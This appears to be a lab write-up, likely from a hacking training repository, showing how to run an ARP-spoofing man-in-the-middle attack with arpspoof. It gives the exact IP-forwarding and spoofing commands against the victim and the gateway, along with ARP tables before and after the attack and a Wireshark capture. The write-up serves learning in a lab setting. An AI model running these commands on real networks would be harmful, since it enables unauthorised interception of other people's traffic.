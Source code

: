 # ARP Spoofing

ARP does not have an authentication mechanism.

```par
Internet --> Gateway --> Victim
                |        ^
                |       /
                |      /
                Hacker/
```

Gateway and Victim update their iptables.

MIM

```par
    Internet --> Gateway    Victim
                    |        ^
                    |       /
                    |      /
pretending to be a router Hacker/
```

Gateway and Victim update their iptables.

```sudo apt-get install dsniff```

arpspoof part of dsniff

## Kali Machine

### Enable ip forwarding

sysctl -w net.ipv4.ip_forward=1
arp Table original

```sh
? (192.168.221.128) at 00:0c:29:a1:09:cb [ether] on eth0
? (192.168.221.2) at 00:50:56:e6:48:53 [ether] on eth0
```

```arp -a```


## Windows Machine

```cmd
Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::c83e:c92d:a70b:4df2%7
   IPv4 Address. . . . . . . . . . . : 192.168.221.128
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.221.2

  Internet Address      Physical Address      Type
  192.168.221.2         00-50-56-e6-48-53     dynamic
  192.168.221.133       00-0c-29-2a-ad-39     dynamic
  192.168.221.254       00-50-56-fd-6e-58     dynamic
  192.168.221.255       ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static
```

```arpspoof -i eth0 -t 192.168.221.128 192.168.221.2```

## MITM Attack Kali Machine

```bash
kali@kali:/mnt/hgfs/Training/EthicalGo/GoHacking/arpspoofing$ arp -a
? (192.168.221.1) at 00:50:56:c0:00:08 [ether] on eth0
? (192.168.221.2) at 00:50:56:e6:48:53 [ether] on eth0
? (192.168.221.254) at 00:50:56:fc:35:79 [ether] on eth0
```

After spoffing Windows arp table

```cmd
Interface: 192.168.221.128 --- 0x7
  Internet Address      Physical Address      Type
  192.168.221.2         00-0c-29-2a-ad-39     dynamic
  192.168.221.133       00-0c-29-2a-ad-39     dynamic
  192.168.221.254       00-50-56-fd-6e-58     dynamic
  192.168.221.255       ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static
```

## Spoof Router

```arpspoof -i eth0 -t 192.168.221.2 192.168.221.133```

## Wireshark capture from Kali machine

```wireshark
199	82.869451813	172.217.165.142	192.168.221.128	ICMP	74	Echo (ping) reply    id=0x0001, seq=55/14080, ttl=127

```

